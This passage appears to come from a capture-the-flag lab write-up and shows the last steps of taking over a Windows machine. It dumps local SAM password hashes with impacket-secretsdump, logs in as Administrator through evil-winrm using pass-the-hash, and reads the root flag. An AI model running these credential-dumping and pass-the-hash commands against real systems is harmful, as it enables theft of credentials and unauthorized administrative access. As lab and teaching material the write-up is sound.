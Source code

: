 Now using impacket-secretsdump extracts the hash

```
impacket-secretsdump -sam sam -system system LOCAL

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b5....ae86c37b32f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```

With the Administrator's NTLM we can try to connect through winRM using evil-winrm and pass-the-hash technique.

```
evil-winrm -i 10.10.82.211 -u 'Administrator' -H '9545b6...0ae86c37b32f'
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Print the root flag

```powershell
more C:\Users\Administrator\Desktop\root.txt
```

View all user that can access to the server:

```powershell
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/29/2024   6:51 PM                Administrator
d-----        5/29/2023  10:23 PM                j.bold
d-----        5/29/2023  10:23 PM                j.smith
d-r---       12/12/2018   7:45 AM                Public
d-----        5/29/2023   9:47 PM                r.bud
```

